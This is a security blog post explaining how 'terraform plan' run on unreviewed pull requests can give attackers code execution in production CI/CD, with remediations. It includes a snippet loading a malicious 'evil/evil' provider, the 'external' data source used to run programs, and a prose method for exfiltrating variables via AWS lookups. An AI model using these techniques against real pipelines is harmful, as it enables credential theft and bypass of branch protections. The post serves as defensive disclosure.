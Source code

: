 ```yaml
---
layout: post
title: "Terraform Plan RCE"
date: 2021-05-11T11:00:00+00:00
author: alxk
sitemap: false
keywords: "security terraform cicd"
description: "Running a Terraform plan on unstrusted code can lead to RCE and credential exfiltration."
---
```


# Terraform Plan "RCE"

Based on a couple of recent conversations and blog posts on Terraform pull request automation, it seems that a lot of people don't realise that running a `terraform plan` on untrusted code can lead to remote code execution. If you're running a `plan` on production resources from untrusted code (say, on a pull request before it's been reviewed and merged to a protected production branch) then that untrusted code could run any commands it wants in your production CI/CD pipeline. This could lead to production credentials or customer data being exfiltrated, for example.

This also affects Terraform pull request automation solutions like [Atlantis](https://www.runatlantis.io/).

We'll start by discussing a couple of ways to do this before covering remediation.

## Note

This post got picked up by [Cloud Posse](https://cloudposse.com/devops/office-hours/public-office-hours-2021-05-19/) and [CloudSecList](https://cloudseclist.com/issues/issue-87/).

## Setup

We'll assume there's a CI/CD pipeline for a repository that contains Infrastructure-as-Code. At some point after a PR is opened and before the PR has been accepted and merged to a protected production branch, the CI/CD pipeline runs a `terraform init` followed by a `terraform plan` on the production infrastructure.

People usually do this to see how a PR will affect production before it's merged.

It's not rare for companies to encourage developers to submit a PR to an infrastructure repository for infrastructure they need. That PR will then be reviewed and merged by a member of an Ops team. In these cases, it could be that anyone in the company with access to the VCS can submit a PR to the infrastructure repository.

In other cases teams may be running their own infrastructure end-to-end but still protect their production branch, and so expect production infrastructure changes to be peer-reviewed.

We'll now discuss how this approach to "production planning on the PR" can lead to arbitrary code execution in the CI/CD pipeline in the production context. An attacker who is in a position to open a PR can use this to exfitrate production credentials or customer data, bypassing defensive measures like production branch protections.

## Using a Custom Provider

Anyone can write a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup) and publish it to the [Terraform Registry](https://registry.terraform.io/). You could also try to pull a custom provider from a private registry.

That's it:

- write a custom provider than runs some malicious code (like exfiltrating credentials or customer data)
- publish it to the Terraform Registry
- add the provider to the Terraform code in a feature branch
- open a PR for the feature branch

```
terraform {
  required_providers {
    evil = {
      source  = "evil/evil"
      version = "1.0"
    }
  }
}

provider "evil" {}
```

Since the provider will be pulled in during the `init` and run some code during the `plan`, you have arbitrary code execution.

## Using the `external` Provider

A much more elegant solution was suggested by my colleague [Chongyang Shi](https://scy.email). Terraform offers the [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) which provides a way to interface between Terraform and external programs. You can use the `external` data source to run arbitrary code during a `plan`.

The following example is given by Terraform in the [docs](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source):

```
data "external" "example" {
  program = ["python", "${path.module}/example-data-source.py"]

  query = {
    # arbitrary map from strings to strings, passed
    # to the external program as the data query.
    id = "abc123"
  }
}
```

The `query` will be passed as a JSON string on `stdin` to the `program`; you could use this to grab variables from Terraform.

## Abusing Common Providers

After extending this discussion to a cloud security forum, a couple of people have suggested ways of exfiltrating variables by abusing common providers that are likely already in use.

For example, as an attacker you could leverage the AWS provider to lookup a resource in another account you control and set the resource name to a Terraform variable you want to exfiltrate from the production CI/CD context. Terraform will attempt to refresh that resource during the `plan`. After opening a PR and letting the `plan` run, you would then check the CloudTrail logs in the other account to retrieve the value.

I've not tried this yet, but it seems plausible.

## Remediation

### `-plugin-dir`

By default, Terraform will search for, and install, plugins using default search paths. This includes pulling the plugins directly from the Terraform Registry. You can instead install the plugins yourself in a local directory and pass the `-plugin-dir` option to the `plan`:

```
$ terraform plan -plugin-dir /tf/plugins
```

This will prevent Terraform from dynamically pulling in new plugins.

If you're using Atlantis you may also be able to do this by modifying the default Atlantis workflows.

Note that while `-plugin-dir` with whitelisted providers may be a mitigation against arbitrary RCE, it is unlikely to be sufficient to prevent exfiltration of variables via more creative ways.

### Read-only `plan` role

Ideally you use read-only roles for running your `plan`. This is not always practical though and note that even if you can pull this off in AWS or GCP, you may have other things (like database credentials) in your Terraform state file or environment that could be accessed by untrusted code.

### Don't do a production `plan` on untrusted code!

Just don't run a production `plan` on untrusted code! Only do a production `plan` on trusted code that's been peer-reviewed and merged to your protected production branch. You should still have a manual approval step after your production `plan` and before your production `apply`.

## Conclusion

A `terraform plan` is not as passive as you may think. If you run production plans on PRs you could be opening a path to bypassing branch protections and any expected process you have for production access.

An attacker may only need to compromise one of your engineers to abuse the Infrastructure-as-Code CI/CD pipeline and move to production.

If you want to discuss this feel free to hit me up on Twitter [@\_alxk](https://twitter.com/_alxk)!
